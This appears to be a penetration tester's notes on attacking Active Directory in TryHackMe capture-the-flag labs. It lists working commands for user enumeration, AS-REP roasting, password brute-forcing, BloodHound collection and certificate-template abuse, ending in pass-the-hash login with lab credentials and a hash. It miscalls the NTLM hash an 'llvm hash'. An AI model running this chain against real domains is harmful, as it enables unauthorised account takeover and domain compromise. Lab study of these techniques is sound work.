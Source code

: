 # AD Exploitation Guide

This is a limited guide; AD exploitation is a vast topic. But the path of attack starts narrow and expands. When approaching a AD environment, say if you are just starting with an IP address and have done a scan showing the thousands of ports that an domain computer, especially a CA (which we will assume is the default case for a small CTF) then what is the next step?

Sources:
- the ledger THM room https://tryhackme.com/room/ledger
- https://notes.incendium.rocks/pentesting-notes/windows-pentesting/enumerating-users-no-credentials
- https://wadcoms.github.io/ (often the command syntax is out of date / in valid)

## 0. Enumerating AD - getting distinguished names etc

- `enum4linux -a 10.10.128.189` is an old staple, but seems only partially functional these days
- `nmap -n -sV --script "ldap* and not brute" -p 389 10.10.128.189` will return a bunch of info, importantly including distinguished names
- `ldapsearch -x -h 10.10.128.189 -b "dc=thm,dc=local"` using a name space from the above (here `dc=thm,dc=local`). Super finicky, and might not work at all. If it does work, its efficacy will depend on the namespace (query?) you use so maybe try different combinations. Can produce a tonne of data.

## 1. Find a user

- You might be lucky and some info is on a website, or in a public share, ftp etc.
- If not, try sid iteration: this iterates through the predictable SID/RID range of a domain, looking for users:
    - `python3.9 /opt/impacket/examples/lookupsid.py thm/anon@labyrinth.thm.local` using an anonymous user (requires finding the domain name and host name)
    - `crackmapexec smb labyrinth.thm.local -u anonymous -p "" --rid-brute 10000`. On the attack box, crackmapexec can be installed with `snap install crackmapexec`

## 2. Finding a password

- If you are lucky, one of the earlier enumeration searches might contain data. For example often in CTF contexts, its been the case that something like `Please change it: CHANGEME2023!` is in the description of a user (e.g. in the ledger room this was the case), using the data from something like ldapsearch
- If you have a list of uses, look for asrep roastable tokens with `python3.9 /opt/impacket/examples/GetNPUsers.py THM/ -usersfile users.txt -dc-ip 10.10.128.189 -format hashcat -outputfile hashes`. These can be cracked with `-m 18200`
- All else failing, you can try bruting a user account with `./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman`. Note kerbrute has a linux version and windows: https://github.com/ropnop/kerbrute. It can be used for some of the earlier steps, and password spraying, but I've never had much success.

## 3. Credentialed enumeration

With a username/password combo, the path forward opens up. I generally do two things, small then large:

- get a proper domain dump, complete with browsable html files using `python3.9 ldapdomaindump.py 10.10.128.189 -u THM\\IVY_WILLIS -p CHANGEME2023!`. This is much easier to navigate than raw LDAP output, and can help for seeing user groups and other notes dotted around.
- get a bloodhound dump - done remotely with python, you can avoid defender problems: `bloodhound-python -d thm.local -v --zip -c All -u IVY_WILLIS -p 'CHANGEME2023!' --dns-tcp -ns 10.10.128.189`.

## Escalation Special paths

TODO, an expandable section. Really there is almost no limit here. SPNs should be done when next encountered

- Exploiting misconfigured certs:
  - `python3.9 -m pip install certipy-ad`
  - use creds to find misconfigured certs `certipy find -u SUSANNA_MCKNIGHT@local.thm -p 'CHANGEME2023!' -dc-ip 10.10.128.189 -vulnerable`
  - if found enroll a vulnerable cert for a target, high priv user: `certipy req -username SUSANNA_MCKNIGHT  -password 'CHANGEME2023!' -ca thm-LABYRINTH-CA -target labyrinth.thm.local -template ServerAuth -upn bradley_ortiz@thm.local -dc-ip 10.10.128.189 -debug`
  - then use that cert to create a llvm hash: `certipy auth -pfx bradley_ortiz.pfx -dc-ip 10.10.128.189 -debug`
  - finally with those hashes, gain access. Evil-winrm is an option (might be deprecated), but impackets wmi-exec works well too: `python3.9 /opt/impacket/examples/wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:16ec31963c93240962b7e60fd97b495d thm.local/bradley_ortiz@10.10.128.189`

